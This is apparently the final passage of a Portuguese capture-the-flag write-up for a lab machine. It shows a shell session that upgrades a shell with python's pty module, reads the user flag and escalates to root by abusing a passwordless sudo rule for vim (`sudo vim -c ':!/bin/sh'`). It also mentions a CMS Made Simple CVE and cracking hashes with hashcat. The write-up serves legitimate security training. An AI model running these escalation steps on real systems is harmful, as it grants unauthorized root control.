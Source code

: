 ```shell
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 

$ ls
user.txt
$ cat us	
cat: us: No such file or directory
$ whereis python
python: /usr/bin/python3.5m /usr/bin/python2.7 /usr/bin/python /usr/bin/python3.5 /usr/lib/python2.7 /usr/lib/python3.5 /etc/python2.7 /etc/python /etc/python3.5 /usr/local/lib/python2.7 /usr/local/lib/python3.5 /usr/include/python3.5m /usr/share/python /usr/share/man/man1/python.1.gz
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
mitch@Machine:~$ ls
user.txt
mitch@Machine:~$ ls /home/
mitch  sunbath
```
{: .nolineno }
### Escalando para root

posso usar sudo -l e o vim

```shell
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
{: .nolineno }
Consultando o <https://gtfobins.github.io/gtfobins/vim/>  
`sudo vim -c ':!/bin/sh'` para pegar uma root shell
![Alt text](/assets/img/simplectf5.png)

Na home existe outro usuário `sunbath`, mas nada interessante foi encontrado.

### Segunda flag
![Alt text](/assets/img/simplectf6.png)

**Conhecimentos adquiridos:**
- CVE da aplicação CMS Made Simple 2.2.8
- Como montar a hash para usar no hashcat